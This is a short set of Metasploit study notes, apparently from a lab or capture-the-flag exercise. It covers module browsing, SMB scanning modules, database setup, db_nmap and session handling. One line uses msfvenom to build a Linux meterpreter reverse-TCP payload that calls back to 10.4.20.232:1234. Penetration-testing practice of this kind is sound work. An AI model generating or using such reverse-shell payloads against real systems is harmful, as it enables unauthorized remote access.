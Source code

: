 msfconsole

cd /usr/share/metasploit-framework/modules

tree -L 1 auxiliary

`smb_version`
`smb_enumshares`

`systemctl start postgresql`

`msfdb init`

`msfconsole`

`db_status`

`workspace`

`db_nmap`

msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.4.20.232 LPORT=1234 -f elf > rev_shell.elf

CTRL Z to background a session
sessions -i 1 to select number 1 in the session
sessions







































